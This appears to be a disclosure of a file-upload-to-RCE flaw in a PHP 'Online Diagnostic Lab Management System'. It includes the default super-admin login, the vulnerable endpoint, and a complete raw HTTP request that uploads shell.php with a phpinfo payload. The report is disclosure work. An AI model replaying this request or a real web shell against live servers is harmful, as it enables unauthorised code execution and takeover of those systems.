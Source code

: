 # Online Diagnostic Lab Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: 袁世冲

vendors: https://www.sourcecodester.com/php/15667/online-diagnostic-lab-management-system-using-php-and-mysql-free-download.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/diagnostic/php_action/editProductImage.php?id=2

Loophole location: Online Diagnostic Lab Management System's editProductImage.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /diagnostic/php_action/editProductImage.php?id=2 HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/diagnostic/edittest.php?id=2
Cookie: PHPSESSID=flklolh755oivesj89eu5fo2c7
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------25689655923079
Content-Length: 431

-----------------------------25689655923079
Content-Disposition: form-data; name="old_image"

shell.php
-----------------------------25689655923079
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------25689655923079
Content-Disposition: form-data; name="btn"


-----------------------------25689655923079--
```

The files will be uploaded to this directory \diagnostic\assets\myimages\

![image](https://user-images.githubusercontent.com/54017627/191397805-e9a3d96e-76e8-4bb6-9a32-9080a6dc58e5.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/191397953-d9970431-c747-4ee7-b688-3e04463a2b44.png)
